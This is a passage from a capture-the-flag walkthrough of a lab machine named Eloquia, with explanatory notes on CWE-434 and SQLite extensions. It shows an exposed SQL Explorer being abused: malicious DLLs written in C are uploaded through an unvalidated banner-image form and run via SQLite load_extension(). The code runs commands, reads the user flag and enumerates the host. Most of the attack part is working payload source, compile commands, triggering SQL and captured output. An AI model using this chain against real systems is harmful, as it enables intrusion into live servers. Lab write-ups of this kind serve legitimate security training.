Once the OAuth CSRF attack succeeds, logging in as the admin user shows that the Qooqle account <kuroshiro@qmail.htb> is now listed as active under Connected Accounts.


This is the definitive proof that the administrative account has been successfully linked to our attacker-controlled identity, granting full admin privileges on the Eloquia application. From this point forward, clicking "Login with Qooqle" from *our own* browser (using the attacker's Qooqle identity) authenticates us directly as the Eloquia administrator — no password for the admin account was ever needed, guessed, or cracked.

### How This Sets Up Phase 3

Admin access on a Django application typically unlocks the built-in **Django admin panel** and any developer/debug tooling that was left reachable in "production." That's exactly what we find next.

---

# Phase 3: From Admin Panel to Remote Code Execution

## Discovering SQL Explorer

With administrative access we discover a development tool called SQL Explorer located at `/dev/sql-explorer/`.


The interface allows the creation and execution of arbitrary SQL queries against the application's database. This is a classic "debug left in production" finding — `django-sql-explorer` is a real, legitimate open-source package used by data teams to let trusted analysts run ad-hoc SQL against a Django app's database from a web UI. It is explicitly **not** designed to be exposed to untrusted users, since by definition it grants raw SQL execution. Finding it reachable at a predictable `/dev/...` path after obtaining admin access is the box's way of modeling a very real-world mistake: internal tooling mistakenly left enabled, or gated only behind "is this user a Django staff/superuser" rather than being removed entirely from production builds.

## SQLite Fundamentals & the `load_extension()` Function

Executing `SELECT sqlite_version();` returns version 3.45.1.

```sql
SELECT sqlite_version();
```


### Why the SQLite Version Matters

This version of SQLite supports the `load_extension()` function, which can be used to load arbitrary native libraries (DLLs on Windows). This becomes the remote code execution vector.

> **Concept note — SQLite extensions:** SQLite supports a loadable-extension mechanism that lets you dynamically link a compiled shared library (a `.so` on Linux, a `.dll` on Windows) into the running SQLite process, exposing new SQL functions implemented in native C code. This is a legitimate and powerful feature — it's how official extensions like FTS5 full-text search, R*Tree indexes, or JSON1 functions can be added modularly. The function signature is `load_extension(file, [entry_point])`, where `file` is a filesystem path to the shared library and the optional second argument names the C function SQLite should call to initialize it (defaulting to `sqlite3_extension_init` if omitted). **The danger is obvious once you see it stated plainly: if an attacker can (a) control the `file` path argument passed to `load_extension()`, and (b) place an arbitrary file at that path on disk, they can get SQLite — and therefore the host process running it — to execute arbitrary native code.** For exactly this reason, `load_extension()` is **disabled by default** in modern SQLite builds and must be explicitly re-enabled by the embedding application (e.g. via `sqlite3_enable_load_extension()` in C, or an equivalent flag in whatever ORM/driver wraps it). The fact that it works at all here tells us the Django application (or the `django-sql-explorer` configuration) has explicitly turned this capability on — likely without realizing the severity of doing so on an endpoint reachable by any Django staff-level account.

Listing the tables shows the expected Django models (Eloquia_article, Eloquia_customuser, authentication tables, etc.) as well as the internal tables used by SQL Explorer itself.

```sql
SELECT name FROM sqlite_master WHERE type='table';
```


This confirms we are interacting with the live production database — not a sandboxed or read-only copy, which means any changes or code execution achieved here directly impacts the real running application and, by extension, the underlying Windows host.

An initial test of `SELECT load_extension('test');` fails with the error "The specified module could not be found".

```sql
SELECT load_extension('test');
```


This is expected behaviour and simply proves that the `load_extension` functionality is enabled and ready to be used once a valid path to a malicious DLL is provided. The error message itself is informative from a Windows internals perspective too — "The specified module could not be found" is the textual rendering of Win32 error code `ERROR_MOD_NOT_FOUND` (126), which is what `LoadLibrary()` returns when it can't resolve the given path, confirming SQLite is calling straight into the Windows dynamic-linking loader under the hood rather than failing at some earlier validation step. In other words: the mechanism is live, we just need a real file sitting at a real path.


## Abusing the Django Admin Article Upload

The Django admin panel lists all existing articles. From this interface an administrator can create, edit or delete articles. This is the entry point used to upload the malicious DLL that will later be loaded via SQL Explorer.

### Crafting a Malicious DLL Payload

`payload.c`

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_payload_init(void *db, char **err, void *api) {
    system("whoami > C:\\Web\\Eloquia\\static\\assets\\images\\blog\\output.txt 2>&1");
    return 0;
}
```

**Reading the payload:** `__declspec(dllexport)` is the Windows/MSVC-style attribute that marks this function as a **public, exported symbol** in the resulting DLL — meaning external callers (here, SQLite) can look it up by name at load time, which is exactly what `load_extension()`'s second argument (the entry-point name) requires. The function signature `int name_init(void *db, char **err, void *api)` deliberately mirrors SQLite's expected extension-init signature so the loader is happy with it. The body itself does the simplest possible thing to prove code execution: it shells out via the C standard library's `system()` function to run the Windows `whoami` command and redirect (`>`) its output into a file inside Eloquia's own `static/assets/images/blog/` directory — a path we already know is served directly over HTTP, because it's exactly where uploaded article banner images live. This gives us a dead-simple "out of band" result channel: run a command on the server, have it write its output into a file the web server will happily serve back to us over plain HTTP, then just `curl` that file.

```shell
x86_64-w64-mingw32-gcc -shared -o payload.dll payload.c
```

This is a classic **Windows cross-compilation from Linux** command. `x86_64-w64-mingw32-gcc` is the MinGW-w64 cross-compiler toolchain's `gcc`, which targets 64-bit Windows PE binaries while running on a Linux attack box. `-shared` tells the compiler to produce a shared library (a `.dll` on this target, rather than a `.so`) instead of a standalone executable. The result, `payload.dll`, is a legitimate Windows DLL containing our exported `sqlite3_payload_init` function, built entirely without ever touching a Windows machine.

Using the "Add article" form we upload a compiled malicious DLL (payload.dll) in place of a normal banner image.


The application accepts the file without performing any meaningful content or extension validation, placing it into the static assets directory.


> **Concept note — unrestricted file upload:** This is textbook **CWE-434 (Unrestricted Upload of File with Dangerous Type)**. A secure upload handler for a "banner image" field should, at minimum: validate the file extension *and* the actual file content (magic bytes / re-encode through an image library rather than trusting the client-supplied `Content-Type`), enforce the stated size limit server-side (not just in the UI), and — ideally — store uploads in a location that is **not directly web-accessible**, or serve them with headers that prevent them from ever being treated as executable content. Here, none of that matters for the *immediate* exploit anyway, because we're not trying to get the web server to execute the DLL as a web request — we're using an entirely different execution primitive (`load_extension()` from the authenticated SQL Explorer). The upload form's only job in this chain is to act as an **arbitrary file write primitive** that drops bytes we control at a **predictable, guessable path** on disk. That combination — "I can write any file anywhere predictable" + "I have a separate primitive that can load and execute a file from a path I specify" — is what turns two individually "medium severity" findings into a full RCE chain.

The application returns a success message confirming that "Article object (14)" was added. At this point the malicious DLL resides on the server and is ready to be loaded.


### Achieving Code Execution

The uploaded file is stored at `static/assets/images/blog/payload.dll`. This predictable path is later passed to `load_extension()`, achieving code execution under the context of the web application user (`web`).

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\payload.dll', 'sqlite3_payload_init');
```

This single SQL statement is the moment the entire chain converts from "a handful of separately annoying bugs" into **remote code execution**. SQLite's `load_extension()` resolves the absolute Windows path, calls `LoadLibraryA()` under the hood to map the DLL into the SQL Explorer worker process's address space, locates the exported `sqlite3_payload_init` symbol by name (the second argument), and calls it. Our `system("whoami > ...")` line then executes exactly as if we had a shell on the box — because, functionally, we now do.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ curl http://eloquia.htb/static/assets/images/blog/output.txt
eloquia\web
```

The output confirms command execution as the `eloquia\web` account — the low-privileged local service account that IIS/Django is running under. This is our **initial foothold**: not an interactive shell yet, but a reliable, repeatable "write a DLL → upload it → load it → read the output back over HTTP" execution primitive that we can use as many times as needed.

## Capturing the User Flag

With arbitrary command execution confirmed, grabbing `user.txt` is a direct application of the same technique with a different payload.

`user_flag.c`

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_payload_init(void *db, char **err, void *api) {
    system("type C:\\Users\\web\\Desktop\\user.txt > C:\\Web\\Eloquia\\static\\assets\\images\\blog\\flag.txt 2>&1");
    return 0;
}
```

This payload swaps `whoami` for `type C:\Users\web\Desktop\user.txt` — the Windows CMD equivalent of `cat` — reading the flag file from the `web` account's Desktop and writing its contents to a new, web-accessible output file.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ x86_64-w64-mingw32-gcc -shared -o user_flag.dll user_flag.c
```

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\user_flag.dll', 'sqlite3_payload_init');
```

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ curl http://eloquia.htb/static/assets/images/blog/flag.txt
7fd17a2ae9b78abb8a4be2d35287063b
```

**User flag captured.** Note the repeatable pattern that's now established and will be reused throughout the rest of the engagement: **write a tiny, single-purpose C "payload" → cross-compile it into a DLL with `x86_64-w64-mingw32-gcc` → upload it through the article banner form → load it via SQL Explorer → read the result back over HTTP.** This is effectively a slow, file-based "pseudo-shell" — every command requires a fresh compile/upload/load/curl cycle rather than giving us an interactive terminal, which is an important limitation to keep in mind for the next phase.

```mermaid
flowchart LR
    subgraph Attacker
        A1["Write C payload\n(system() call)"] --> A2["x86_64-w64-mingw32-gcc\n-shared -o payload.dll"]
    end
    subgraph Eloquia_App["Eloquia Web App"]
        B1["POST /article/create/\nbanner=payload.dll"] --> B2["Saved verbatim to\nstatic/assets/images/blog/"]
    end
    subgraph SQL_Explorer["SQL Explorer (/dev/sql-explorer/)"]
        C1["SELECT load_extension(\n'...payload.dll','entry')"] --> C2["LoadLibraryA() maps DLL\ninto worker process"]
        C2 --> C3["sqlite3_payload_init()\nruns -> system(cmd)"]
    end
    C3 --> D["Output redirected to\nstatic/.../output.txt"]
    D --> E["curl http://eloquia.htb/static/...\n= command result"]

    A2 --> B1
    B2 --> C1
```



---

# Phase 4: Post-Exploitation & System Enumeration

A single `whoami` or `type user.txt` is enough to prove code execution, but it tells us almost nothing about how to escalate further. The file-based "pseudo-shell" from Phase 3 is slow (one compile/upload/load/curl cycle per command), so instead of running dozens of individual commands one at a time, the efficient move is to build **one DLL that runs an entire battery of enumeration commands in a single load**, dumping everything to one output file we can `curl` once.

## Building a DLL-Based Enumeration Tool

`enum.c` chains together `system()` calls covering local accounts/groups, user profile directories, AppData contents, browser installation folders, installed Program Files, scheduled tasks, services, and network configuration — essentially a hand-rolled, minimal version of tools like `winPEAS` or `Seatbelt`, built from scratch because we don't have an interactive shell to upload and run a pre-built enumeration binary with (yet).

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_enum_init(void *db, char **err, void *api) {

    // Basic info
    system("echo ========== BASIC INFO ========== > C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("whoami >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("hostname >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("systeminfo | findstr /B /C:\"OS Name\" /C:\"OS Version\" /C:\"System Type\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    // Users & groups
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== USERS ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("net user >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("net localgroup >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("net localgroup Administrators >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("net localgroup \"Remote Management Users\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    // Home directories
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== USER PROFILES ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir C:\\Users >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir C:\\Users\\web >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir C:\\Users\\web\\Desktop >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir C:\\Users\\web\\Documents >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir C:\\Users\\web\\Downloads >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    // AppData (very important)
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== APPDATA ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir C:\\Users\\web\\AppData >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir C:\\Users\\web\\AppData\\Local >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir C:\\Users\\web\\AppData\\Roaming >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    // Browsers
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== BROWSERS ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b C:\\Users\\web\\AppData\\Local\\Google\\Chrome 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b C:\\Users\\web\\AppData\\Roaming\\Mozilla 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");

    // Program Files
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== PROGRAM FILES ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir \"C:\\Program Files\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("dir \"C:\\Program Files (x86)\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    // Interesting folders / services
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== INTERESTING PATHS ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b C:\\Web 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b \"C:\\Program Files\\*Qooqle*\" 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b \"C:\\Program Files\\*Failure*\" 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("dir /s /b \"C:\\Program Files\\*Automation*\" 2>> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");

    // Scheduled tasks & services
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== SCHEDULED TASKS ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("schtasks /query /fo LIST /v | findstr /i \"TaskName Status Next Run\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== SERVICES ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("sc query state= all | findstr /i \"SERVICE_NAME STATE\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    // Network
    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("echo ========== NETWORK ========== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt");
    system("ipconfig /all >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");
    system("netstat -ano >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\enum.txt 2>&1");

    return 0;
}
```

### Breaking Down Each Enumeration Block

Rather than running each Windows command and explaining it after the fact buried in a wall of output, here's what every section of this payload targets and *why* it matters for privilege escalation hunting:

- **`whoami`, `hostname`, `systeminfo`** — confirms our exact execution context and OS build (needed later to pick the right kernel-exploit candidates, if those were in scope, and to confirm Server 2019's patch level).
- **`net user`, `net localgroup`, `net localgroup Administrators`, `net localgroup "Remote Management Users"`** — enumerates every local account and, specifically, who belongs to the two groups that matter most for escalation: `Administrators` (full local admin) and `Remote Management Users` (who is allowed to connect over WinRM, port 5985 — remember this from Phase 1's nmap scan).
- **`dir` on `C:\Users`, the `web` profile, Desktop/Documents/Downloads** — a basic sweep for flag files, saved credentials, scripts, or notes left behind by other users/service accounts.
- **AppData enumeration** — `AppData\Local` and `AppData\Roaming` are where almost all per-user application state lives on Windows, including browser profiles, cached credentials, and configuration for third-party software. Explicitly flagged as "very important" in the comment because it's the step that leads directly into Phase 5.
- **Browser folder discovery (`Edge`, `Chrome`, `Mozilla`)** — explicitly hunting for browser profile directories, because browsers are one of the most common places operators (and automated service accounts) inadvertently leave saved-password databases sitting around.
- **`Program Files` / `Program Files (x86)` listing** — a straightforward software inventory. Installed, non-default software is frequently the source of privilege-escalation bugs (weak service permissions, vulnerable installers, custom services running as SYSTEM).
- **Targeted `dir /s /b` searches for `*Qooqle*`, `*Failure*`, `*Automation*`** — these aren't random; they're informed guesses based on what's already been seen in recon (the "Qooqle" branding from Phase 1/2) plus generic terms ("Failure", "Automation") that are common in custom-built security/monitoring tooling — exactly the kind of homegrown software that tends to have escalation bugs, foreshadowing the `Failure2Ban` service found in Phase 7.
- **`schtasks /query /fo LIST /v`** — lists every Scheduled Task on the system with full verbose detail, filtered down to just the Task Name, Status, and Next Run Time fields to keep the output somewhat manageable. Scheduled Tasks are a classic persistence *and* privilege-escalation vector: a task that runs as `SYSTEM` but executes a script/binary that a lower-privileged user can modify is an instant win.
- **`sc query state= all`** — lists every Windows Service and its current state, filtered to service name and state. Combined with the scheduled tasks output, this builds a full picture of everything that runs automatically on this host and under which account.
- **`ipconfig /all` and `netstat -ano`** — confirms network configuration and every listening/established TCP/UDP connection with owning Process ID, useful for spotting services bound only to `127.0.0.1` (meaning they're reachable *only* from the box itself, hinting that whatever RCE we have is required to reach them) and for correlating PIDs back to the services/tasks enumerated above.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ x86_64-w64-mingw32-gcc -shared -o enum.dll enum.c
```

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\enum.dll', 'sqlite3_enum_init');
```

## Analyzing the Enumeration Output

Fetching the resulting file gives us the full dump in one shot. The following block is the **complete, unedited output** exactly as retrieved — it's long, and the bulk of it is Windows' own default, built-in Scheduled Tasks (which every stock Windows Server 2019 install ships with), but it's preserved here in full for completeness and so you can practice picking the signal out of the noise yourself, the same way we had to during the real assessment.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ curl http://eloquia.htb/static/assets/images/blog/enum.txt
========== BASIC INFO ========== 
eloquia\web
Eloquia
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
 
========== USERS ========== 

User accounts for \\ELOQUIA

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
Olivia.KAT               WDAGUtilityAccount       web                      
The command completed successfully.


Aliases for \\ELOQUIA

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Storage Replica Administrators
*System Managed Accounts Group
*Users
The command completed successfully.

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.

Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
Olivia.KAT
The command completed successfully.

 
========== USER PROFILES ========== 
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users

04/20/2024  11:50 AM    <DIR>          .
04/20/2024  11:50 AM    <DIR>          ..
11/28/2025  11:21 AM    <DIR>          Administrator
04/20/2024  11:50 AM    <DIR>          Olivia.KAT
04/15/2024  09:26 PM    <DIR>          Public
10/22/2025  01:31 PM    <DIR>          web
               0 File(s)              0 bytes
               6 Dir(s)   5,460,557,824 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web

10/22/2025  01:31 PM    <DIR>          .
10/22/2025  01:31 PM    <DIR>          ..
04/16/2024  09:17 AM    <DIR>          .cache
10/22/2025  01:34 PM    <DIR>          .idlerc
10/21/2025  02:23 PM    <DIR>          3D Objects
10/21/2025  02:23 PM    <DIR>          Contacts
10/21/2025  02:23 PM    <DIR>          Desktop
10/21/2025  02:23 PM    <DIR>          Documents
10/21/2025  02:23 PM    <DIR>          Downloads
10/21/2025  02:23 PM    <DIR>          Favorites
10/21/2025  02:23 PM    <DIR>          Links
10/21/2025  02:23 PM    <DIR>          Music
10/21/2025  02:23 PM    <DIR>          Pictures
10/21/2025  02:23 PM    <DIR>          Saved Games
10/21/2025  02:23 PM    <DIR>          Searches
10/21/2025  02:23 PM    <DIR>          Videos
               0 File(s)              0 bytes
              16 Dir(s)   5,460,557,824 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\Desktop

10/21/2025  02:23 PM    <DIR>          .
10/21/2025  02:23 PM    <DIR>          ..
10/02/2026  10:30 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,460,557,824 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\Documents

10/21/2025  02:23 PM    <DIR>          .
10/21/2025  02:23 PM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)   5,460,557,824 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\Downloads

10/21/2025  02:23 PM    <DIR>          .
10/21/2025  02:23 PM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)   5,460,553,728 bytes free
 
========== APPDATA ========== 
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData

10/20/2025  12:26 PM    <DIR>          Local
04/20/2025  12:29 PM    <DIR>          LocalLow
04/19/2024  05:53 PM    <DIR>          Roaming
               0 File(s)              0 bytes
               3 Dir(s)   5,460,553,728 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local

10/20/2025  12:26 PM    <DIR>          .
10/20/2025  12:26 PM    <DIR>          ..
04/19/2024  05:53 PM    <DIR>          ConnectedDevicesPlatform
04/20/2024  12:13 PM    <DIR>          D3DSCache
10/20/2025  12:26 PM    <DIR>          DBG
04/20/2025  08:24 PM    <DIR>          Microsoft
04/19/2024  06:30 PM    <DIR>          Packages
10/03/2026  12:21 AM    <DIR>          Temp
04/19/2024  06:06 PM    <DIR>          VirtualStore
               0 File(s)              0 bytes
               9 Dir(s)   5,460,553,728 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Roaming

04/19/2024  05:53 PM    <DIR>          .
04/19/2024  05:53 PM    <DIR>          ..
04/19/2024  05:53 PM    <DIR>          Adobe
               0 File(s)              0 bytes
               3 Dir(s)   5,460,553,728 bytes free
 
========== BROWSERS ========== 
The system cannot find the file specified.
File Not Found
 
========== PROGRAM FILES ========== 
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Program Files

10/11/2025  04:07 AM    <DIR>          .
10/11/2025  04:07 AM    <DIR>          ..
11/06/2025  02:41 PM    <DIR>          Automation Scripts
09/08/2025  12:04 AM    <DIR>          Common Files
10/08/2025  05:23 AM    <DIR>          IIS
11/28/2025  08:16 AM    <DIR>          internet explorer
04/16/2024  08:53 AM    <DIR>          Python311
04/30/2024  01:40 PM    <DIR>          Qooqle IPS Software
10/08/2025  05:22 AM    <DIR>          Reference Assemblies
09/08/2025  12:05 AM    <DIR>          VMware
05/04/2024  09:32 AM    <DIR>          Windows Defender
11/28/2025  08:16 AM    <DIR>          Windows Defender Advanced Threat Protection
11/05/2022  12:03 PM    <DIR>          Windows Mail
04/26/2025  11:30 PM    <DIR>          Windows Media Player
11/28/2025  08:16 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/05/2022  12:03 PM    <DIR>          Windows Photo Viewer
11/28/2025  08:16 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
09/15/2018  12:19 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              20 Dir(s)   5,460,553,728 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Program Files (x86)

10/08/2025  05:23 AM    <DIR>          .
10/08/2025  05:23 AM    <DIR>          ..
09/15/2018  12:28 AM    <DIR>          Common Files
10/08/2025  05:23 AM    <DIR>          IIS
11/28/2025  08:16 AM    <DIR>          Internet Explorer
04/20/2024  11:21 AM    <DIR>          Microsoft
09/15/2018  12:19 AM    <DIR>          Microsoft.NET
10/08/2025  05:22 AM    <DIR>          Reference Assemblies
11/05/2022  12:03 PM    <DIR>          Windows Defender
11/05/2022  12:03 PM    <DIR>          Windows Mail
04/26/2025  11:30 PM    <DIR>          Windows Media Player
11/28/2025  08:16 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/05/2022  12:03 PM    <DIR>          Windows Photo Viewer
11/28/2025  08:16 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              16 Dir(s)   5,460,549,632 bytes free
 
========== INTERESTING PATHS ========== 
 
========== SCHEDULED TASKS ========== 
TaskName:                             \clear eloquia.htb(sql-explorer) query logs
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/3/2026 12:19:17 AM
Task To Run:                          "C:\Program Files\Python311\python.exe" manage.py clear_explorer_logs
Run As User:                          web
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \seleniumSimulator
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/3/2026 12:21:17 AM
Task To Run:                          "C:\Program Files\Python311\python.exe" "C:\Program Files\Automation Scripts\seleniumSimulator.py"
Run As User:                          web
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Start eloquia.htb
Next Run Time:                        N/A
Status:                               Running
Last Run Time:                        10/2/2026 10:29:44 PM
Task To Run:                          "C:\Program Files\Automation Scripts\eloquia.htb-runserver.bat" 
Run As User:                          web
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Start qooqle.htb
Next Run Time:                        N/A
Status:                               Running
Last Run Time:                        10/2/2026 10:29:43 PM
Task To Run:                          "C:\Program Files\Automation Scripts\qooqle.htb-runserver.bat" 
Run As User:                          web
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Server Initial Configuration Task
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/28/2025 12:18:43 PM
Task To Run:                          %windir%\system32\srvinitconfig.exe /disableconfigtask
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\.NET Framework\.NET Framework NGEN v4.0.30319
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:37 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\.NET Framework\.NET Framework NGEN v4.0.30319 64
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:37 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\.NET Framework\.NET Framework NGEN v4.0.30319 64 Critical
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\.NET Framework\.NET Framework NGEN v4.0.30319 Critical
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Active Directory Rights Management Services Client\AD RMS Rights Policy Template Management (Automated)
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Everyone
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Active Directory Rights Management Services Client\AD RMS Rights Policy Template Management (Automated)
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Everyone
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Active Directory Rights Management Services Client\AD RMS Rights Policy Template Management (Manual)
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Everyone
Stop Task If Runs X Hours and X Mins: 01:00:00
